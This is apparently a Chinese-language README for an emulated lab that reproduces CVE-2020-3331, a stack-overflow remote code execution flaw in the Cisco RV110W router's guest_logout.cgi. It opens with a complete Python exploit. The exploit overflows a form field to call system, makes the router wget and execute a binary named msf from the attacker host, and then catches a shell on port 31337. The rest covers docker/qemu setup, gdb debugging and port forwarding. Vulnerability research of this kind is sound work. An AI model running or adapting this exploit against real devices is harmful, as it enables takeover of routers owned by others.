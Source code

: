 # Cisco RV110W 远程代码执行漏洞（CVE-2020-3331）

- 版本：Cisco RV110W 1.2.2.5
- 漏洞：前台 cgi 接口 `guest_logout.cgi` 栈溢出
- 利用：a0 寄存器可控，ret2system

```python
#!/usr/bin/python3

from pwn import *
import requests
from threading import Thread

context(arch='mips', endian='little', os='linux')

system = 0x0047A610

cmd  = '\n'
cmd += 'wget http://192.168.2.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf\n'

assert(len(cmd) < 0x55)

payload = b"status_guestnet.asp" + cmd.ljust(0x55,'a').encode() + p32(system) 
data = {"cmac":"12:af:aa:bb:cc:dd", "submit_button":payload, "cip":"192.168.100.1"}

def attack():
    try:
        requests.post("http://192.168.2.2/guest_logout.cgi", data=data, timeout=1)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```

## 漏洞环境

- docker：攻击、调试主机：192.168.2.1
- qemu-system：固件主机：192.168.2.2
- httpd（有漏洞 Web 服务器）：192.168.2.2:80
- 镜像依赖：`firmianay/ubuntu1604 -> firmianay/qemu-system:mipsel`

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/RV110W_FW_1.2.2.5.bin"
```

构建并启动漏洞环境：

```sh
# 初始化环境
$ ./init_env.sh mipsel

# 构建镜像
$ docker-compose -f docker-compose-system.yml build

# 启动容器
$ docker-compose -f docker-compose-system.yml up
```

## 首次攻击尝试

启动完成后再开一个 shell，尝试首次攻击：

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
```

## docker 中调试

参考 `run.sh` 进行配置。

窗口一：开启调试（qemu-system shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ cd images
root@7463bb44fe27:$ ps -ef | grep qemu-system  | awk '{print $2}' | xargs kill -9
root@7463bb44fe27:$ qemu-system-mipsel -M malta -kernel vmlinux-3.2.0-4-4kc-malta -hda debian_wheezy_mipsel_standard.qcow2 -append "root=/dev/sda1 console=tty0" -net nic -net tap,ifname=tap0,script=no,downscript=no -nographic

即可进入 qemu-system，以 root:root 手动登录后进行调试：

root@debian-mipsel:$ cd squashfs-root/
root@debian-mipsel:$ ./tools/run_httpd.sh
root@debian-mipsel:$ ps -ef | grep httpd | grep -v 'grep' | awk '{print $2}' | xargs ./tools/gdbserver :6666 --attach
Attached; pid = 2328
Listening on port 6666
```

窗口二：调试界面（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ tar xzf squashfs-root.tar.gz
root@7463bb44fe27:$ gdb-multiarch -x ./tools/gdb.cmd 
gef➤  c
```

窗口三：触发漏洞（docker shell）

```sh
$ docker exec -it cisco-system /bin/bash

root@7463bb44fe27:$ python3 ./tools/exp.py
```

## 本机调试

如果你不想用 docker 进行调试，在 docker-compose 中预留了端口映射，可以手动使用 ssh 将 qemu 靶机的 80 和 6666 端口转发到 docker 主机，通过 docker 最终映射到宿主机的端口上：

```yml
ports:
    - "8888:80"
    - "6666:6666"
```

在 docker 里执行如下命令进行端口转发：

```sh
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:6666:192.168.2.2:6666
$ ssh root@127.0.0.1 -f -N -g -R 0.0.0.0:80:192.168.2.2:80
```

待启动调试后，即可在宿主机上访问 8888 和 6666 端口来访问漏洞服务和 gdbserver 了。

## 参考链接

- https://xuanxuanblingbling.github.io/iot/2020/10/26/rv110w/
